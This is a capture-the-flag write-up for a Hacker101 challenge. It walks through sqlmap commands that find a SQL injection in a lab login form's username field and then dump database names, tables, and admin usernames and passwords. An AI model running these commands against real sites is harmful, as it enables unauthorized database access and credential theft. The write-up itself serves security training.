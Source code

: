 # Hacker101-CTF FLAG 2
We are want to try and obtain the username and password to log in, in the previous flag we noticed that we can get thought without the username but what about the password?

In this case we already know that the input fields are susceptible to SQLI so maybe we can expoit it making use of slqmap.

First of all im gonna go ahead and try to obtain the databases if there is any vulnerability.

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs`

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

Im getting this message:
`[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'`

Im gonna try and increase de level value to 2

`sqlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2`

Looks like im getting more juice this time!

`[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'`
`it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y`
`for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y`

Im getting this message as well, im gonna go ahead and try to vulnerate only the username field.

`[INFO] checking if the injection point on POST parameter 'username' is a false positive`
`POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N `

Finally got some results! I got all the databases, im gonna take a look into level2 database

![sqlmap_databases](sqlmap_databases.png)


`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables`

Lets get into admins table and see its columns

`qlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns`

Now lets have a look into the usernames! Dump it!

`qlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump`

Now lets retrieve the pass

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump`

Now lets try log in. Got it! We have the last flag


